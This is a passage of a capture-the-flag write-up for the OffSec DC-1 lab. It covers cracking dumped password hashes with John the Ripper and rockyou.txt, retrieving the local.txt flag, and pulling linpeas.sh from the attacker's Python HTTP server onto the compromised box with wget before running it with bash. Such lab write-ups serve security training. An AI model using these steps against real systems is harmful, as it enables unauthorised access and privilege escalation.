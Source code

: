 Look at that. We now have usernames and passwords for some users, but they look encrypted.

What should we do then?

Lets run a common password list on these hashed passwords:

- First put the hashed passwords into a file.

- gunzip the rockyou.txt wordlist that comes with kali.

- run JohnTheRipper on the created 'hash' file to run a password list attack on it.

![[Pasted image 20220410142317.png]]

This will take a while, so lets move something in the background.

Lets move back to our mysql shell, and exit it.


![[Pasted image 20220410142424.png]]

Moving to the home directory, we see a text file local.txt which contains the flag which we need to give to OffSec to complete the challenge.

![[Pasted image 20220410142557.png]]

![[Pasted image 20220410142635.png]]

We catted the local.txt file and got the flag, then submitted that to the DC-1 challenge on OffSec.


- Now we download linpeas.sh to our machine via linpeas on github -> PEASS-ng -> releases -> linpeas.sh

- The RELEASES section of github is used whenever something needs to be compiled, and they will put it in releases pre-compiled so you dont have to.


Lets copy linpeas.sh from our downloads directory to our current directory: (a temporary /dev/shm directory)

`cp ~/Downloads/linpeas.sh .`

- Now we are going to setup a temporary python http server using `python3 -m http.server 80` (on our kali machine)

![[Pasted image 20220410143529.png]]

So we can see our temporary server running there on the right.

- We can now use `wget 192.168.49.108/linpeas.sh`

- To get the hosted linpeas.sh file from the temporary web server, onto the exploited box.

- ![[Pasted image 20220410144458.png]]

- Now we have downloaded the linpeas.sh file from the temp python server on our host machine, onto the exploited box.

- We can then run linpeas.sh with `bash linpeas.sh`
![[Pasted image 20220410144619.png]]

